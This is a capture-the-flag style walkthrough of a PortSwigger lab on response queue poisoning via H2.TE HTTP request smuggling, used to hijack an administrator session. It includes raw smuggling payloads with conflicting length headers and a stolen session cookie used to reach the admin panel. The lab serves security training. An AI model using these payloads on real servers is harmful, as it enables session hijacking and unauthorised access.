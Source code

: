 
# Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/1.png)

---------------------------------------------

There is a search function whose content is reflected inside an h1 element:



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/2.png)


Searching generates a POST request:



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/3.png)


It looks it is vulnerable to HTTP request smuggling of type CL.TE, and we can read requests with this payload:

```
POST / HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 156
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 100

search=
```




![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/4.png)


We will smuggle a second whole request, so we will send 2 complete POST requests to /404:

```
POST /404 HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

POST /404 HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 1

a
```



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/5.png)


However, if the next request we send is a POST to “/”, it will return the response to the second POST request to /404, instead of the home page:



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/6.png)


And if the third request is to “/404”, it will respond with the response to the last request to “/”, instead of “Not found”:



![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/7.png)


I sent some more requests and got a redirection code 302 to /my-account setting the cookie value to “XOhkm2PtWb1ciwgfJKMwDHcIGxFjvti1”. It seems this is the administrator cookie and we can delete the user with it:






![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/8.png)
![img](images/Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling/9.png)
